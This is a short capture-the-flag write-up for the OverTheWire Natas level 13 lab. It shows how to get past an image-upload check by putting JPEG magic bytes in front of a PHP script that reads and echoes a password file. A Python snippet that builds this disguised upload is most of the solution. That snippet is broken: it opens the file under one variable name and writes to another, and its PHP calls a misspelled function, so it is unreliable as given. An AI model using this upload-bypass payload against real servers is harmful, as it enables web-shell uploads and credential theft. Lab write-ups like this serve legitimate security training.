 # URL: http://natas13.natas.labs.overthewire.org/

# Solution:

It's the same as LEVEL_12 but your PHP script must include JPEG / image magic singature at the beggining for example: (BE SURE TO ACTUALLY WRITE IT AS HEX VALUE - EASIEST WAY THROUGH SOME QUICK PYTHON):  
`0xFFD8FFE0`

```
fh = open('legit_image.php', 'w')
legit_image.write('\xFF\xD8\xFF\xE0' + '<?php $password_maybe = file_get_content(\'/etc/natas_webpass/natas13\'); echo $password_maybe; ?>')
legit_image.close()
```
